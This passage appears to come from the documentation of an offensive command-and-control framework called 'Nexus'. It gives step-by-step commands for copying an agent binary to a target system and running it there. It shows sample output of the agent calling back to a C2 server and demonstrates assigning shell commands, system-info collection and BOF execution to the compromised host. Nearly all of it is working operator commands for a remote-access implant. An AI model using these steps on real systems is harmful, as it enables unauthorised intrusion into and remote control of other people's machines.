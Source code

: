 ### 2. Deploy Agent

```bash
# Copy agent to target system
scp ./target/release/nexus-agent target-system:/tmp/
scp agent.toml target-system:/tmp/

# On target system:
chmod +x /tmp/nexus-agent
/tmp/nexus-agent --config /tmp/agent.toml
```

**Expected Agent Output:**
```
[INFO] Nexus Agent starting...
[INFO] Loading configuration from: /tmp/agent.toml
[INFO] Connecting to C2 server: https://abc12345.example.com:443
[INFO] Registering agent with C2 server
[INFO] Agent registration successful: agent-uuid-here
[INFO] Starting main agent loop
[INFO] Heartbeat sent, next in 30 seconds
```

## Testing Basic Operations

### 1. Verify Agent Connection

On the server, check connected agents:
```bash
# List connected agents
./target/release/nexus-server agents list

# Get agent details
./target/release/nexus-server agents info agent-uuid-here
```

### 2. Execute Basic Commands

```bash
# Execute shell command
./target/release/nexus-server tasks assign agent-uuid-here shell "whoami"

# Check task result
./target/release/nexus-server tasks results --agent agent-uuid-here

# Execute system info collection
./target/release/nexus-server tasks assign agent-uuid-here system_info
```

### 3. Test BOF Execution

```bash
# Upload BOF file
./target/release/nexus-server files upload examples/bofs/whoami.obj

# Execute BOF
./target/release/nexus-server tasks assign agent-uuid-here bof_execution \
  --bof-file whoami.obj --function go --args "target_system"

# Check BOF result
./target/release/nexus-server tasks results --agent agent-uuid-here --type bof_execution
```
